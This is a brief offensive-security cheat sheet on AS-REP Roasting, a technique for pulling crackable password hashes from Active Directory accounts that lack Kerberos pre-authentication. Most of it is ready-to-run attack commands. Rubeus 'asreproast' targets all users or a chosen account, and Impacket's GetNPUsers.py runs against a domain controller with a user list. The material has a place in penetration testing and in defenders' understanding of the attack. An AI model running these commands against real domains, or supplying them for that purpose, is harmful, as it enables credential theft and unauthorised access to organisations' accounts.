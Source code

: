 # AS-REP Roasting

If a user does not require Kerberos pre-authentication, an attacker can request an AS-REP  for the user and crack the retrieved hash offline.

### AS-REP Roasting with Rubeus

```bash
# AS-REP Roast all users (burn your opsec):
.\Rubeus.exe asreproast /nowrap

# AS-REP Roast a specific user:
.\Rubeus.exe asreproast /user:$serviceaccount /nowrap
```

### AS-REP Roasting with Impacket

```bash
# AS-REP Roast with Impacket
python3 GetNPUsers.py $domain -dc-ip $dcip -usersfile $userfile
```

